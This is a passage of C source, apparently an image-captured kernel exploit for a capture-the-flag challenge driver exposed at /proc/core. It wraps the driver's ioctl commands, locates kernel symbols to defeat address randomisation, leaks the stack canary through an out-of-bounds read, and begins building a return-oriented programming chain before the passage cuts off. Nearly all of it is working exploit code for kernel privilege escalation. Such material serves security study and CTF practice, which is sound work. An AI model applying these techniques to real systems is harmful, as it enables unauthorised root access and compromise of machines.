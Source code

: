```C

	printf("[*]set off to %ld\n", idx);

	ioctl(fd, 0x6677889C, idx);

}



void core_read(int fd, char *buf)

{

	puts("[*]read to buf.");

	ioctl(fd, 0x6677889B, buf);



}



void core_copy_func(int fd, long long size)

{

	printf("[*]copy from user with size: %ld\n", size);

	ioctl(fd, 0x6677889A, size);

}





int main(void)

{

	find_symbols();

	size_t offset = vmlinux_base - raw_vmlinux_base;

	save_status();



	int fd = open("/proc/core",O_RDWR);

	set_off(fd, 0x40);

	size_t buf[0x40/8];

	core_read(fd, buf);

	size_t canary = buf[0];

	printf("[*]canary : %p\n", canary);


	size_t rop[0x30] = {0};
```